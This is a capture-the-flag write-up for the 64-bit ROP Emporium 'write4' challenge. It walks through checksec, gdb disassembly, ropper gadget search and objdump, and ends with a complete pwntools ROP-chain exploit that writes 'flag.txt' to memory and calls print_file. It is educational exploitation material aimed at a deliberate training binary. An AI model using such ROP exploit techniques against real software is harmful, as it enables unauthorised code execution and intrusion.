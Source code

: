 ## 64 bits

```
$ checksec write4
[*] '/home/localuser/ropemporium/write4/64bits/write4'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
 ```
 
 Running the binary:
 
 ```
 $ ./write4 
write4 by ROP Emporium
x86_64

Go ahead and give me the input already!

> test
Thank you!
 ```
 
 Now I'll open it on gdb and see the functions:
 
 ```
 pwndbg> info func
All defined functions:

Non-debugging symbols:
0x00000000004004d0  _init
0x0000000000400500  pwnme@plt
0x0000000000400510  print_file@plt
0x0000000000400520  _start
0x0000000000400550  _dl_relocate_static_pie
0x0000000000400560  deregister_tm_clones
0x0000000000400590  register_tm_clones
0x00000000004005d0  __do_global_dtors_aux
0x0000000000400600  frame_dummy
0x0000000000400607  main
0x0000000000400617  usefulFunction
0x0000000000400628  usefulGadgets
0x0000000000400630  __libc_csu_init
0x00000000004006a0  __libc_csu_fini
0x00000000004006a4  _fini
 ```
 
 The `main` function calls the `pwnme` function:
 
 ```
 pwndbg> disassemble pwnme
Dump of assembler code for function pwnme@plt:
   0x0000000000400500 <+0>:     jmp    QWORD PTR [rip+0x200b12]        # 0x601018 <pwnme@got.plt>
   0x0000000000400506 <+6>:     push   0x0
   0x000000000040050b <+11>:    jmp    0x4004f0
End of assembler dump.
 ```
 
 `pwnme` it's at plt, and there's `usefulGadgets` and `usefulFunction`:
 
 ```
 pwndbg> disassemble usefulGadgets 
Dump of assembler code for function usefulGadgets:
   0x0000000000400628 <+0>:     mov    QWORD PTR [r14],r15
   0x000000000040062b <+3>:     ret    
   0x000000000040062c <+4>:     nop    DWORD PTR [rax+0x0]
End of assembler dump.
pwndbg> disassemble usefulFunction 
Dump of assembler code for function usefulFunction:
   0x0000000000400617 <+0>:     push   rbp
   0x0000000000400618 <+1>:     mov    rbp,rsp
   0x000000000040061b <+4>:     mov    edi,0x4006b4
   0x0000000000400620 <+9>:     call   0x400510 <print_file@plt>
   0x0000000000400625 <+14>:    nop
   0x0000000000400626 <+15>:    pop    rbp
   0x0000000000400627 <+16>:    ret    
End of assembler dump.
 ```
 
 Now i'll use ropper to find useful gadgets, and those are the importants:
 
 ```
 $ ropper                                                                                                                                   
(ropper)> file write4
(write4/ELF/x86_64)> gadgets
----
----
0x0000000000400690: pop r14; pop r15; ret;
0x0000000000400693: pop rdi; ret;
----
----
 ```

 
 Now we need somewhere to write, let's find it with `obdjump`:
 
 ```
 $ objdump -h write4
 -----
 -----
 -----
 22 .data         00000010  0000000000601028  0000000000601028  00001028  2**3
----
----
 ```
 
 I'll use `.data` but `.bss` will work too.
 
 So what we are going to do is send the padding then with the gadget `pop r14; pop r15`, we change the value of r14 to the data and the r15 the `flag.txt` string, then with the gadget `pop rdi`, the new value of rdi is going to be flag.txt, and then we call the `print_file` function to get the flag
 
 The final exploit:
 
 ```
 from pwn import *

p = process("./write4")
elf = ELF("./write4")

# gadgets:
pop_r14_r15 = p64(0x400690) 
mov_r14_r15 = p64(0x400628) 
print_file = p64(0x400510)
pop_rdi = p64(0x400693)
data = p64(0x601028)


payload = b"a"*40
payload += pop_r14_r15
payload += data
payload += b"flag.txt"
payload += mov_r14_r15
payload += pop_rdi
payload += data
payload += print_file

p.recvuntil(">")
p.sendline(payload)
p.recvline()
p.interactive()
 ```
 
 
 
